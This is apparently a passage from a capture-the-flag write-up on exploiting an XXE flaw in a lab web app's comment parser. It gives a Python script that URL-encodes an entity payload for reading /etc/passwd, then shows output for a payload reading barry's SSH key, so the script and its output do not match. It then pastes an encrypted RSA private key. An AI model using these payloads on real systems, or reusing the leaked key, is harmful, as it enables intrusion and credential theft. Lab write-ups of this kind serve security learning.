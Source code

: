 Let's send a simple request and check the format of it:


![](Pasted image 20250317183500.png)

My guess is that since this reads from a `xml` file, it could be vulnerable to XXE, also, we can try crafting a payload to read `/etc/passwd`, we can use this python script to convert the payload into url encoding:


```python
import urllib.parse
payload = '''<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment><name>&xxe;</name><author>test</author><comment>test</comment></comment>'''
print(urllib.parse.quote(payload))
```

Now, let's use it and copy the payload:


```python
python3 convert.py

%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A///home/barry/.ssh/id_rsa%22%3E%20%5D%3E%0A%3Ccomment%3E%3Cname%3E%26xxe%3B%3C/name%3E%3Cauthor%3Etest%3C/author%3E%3Ccomment%3Etest%3C/comment%3E%3C/comment%3E
```



If we use the payload:


![](Pasted image 20250317183744.png)

And there we go, we got LFI through exploiting this vulnerable parameter, we already know about `barry` and that we can login using his key, let's read the key:

![](Pasted image 20250317183859.png)

Let's grab the key and login as barry:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
```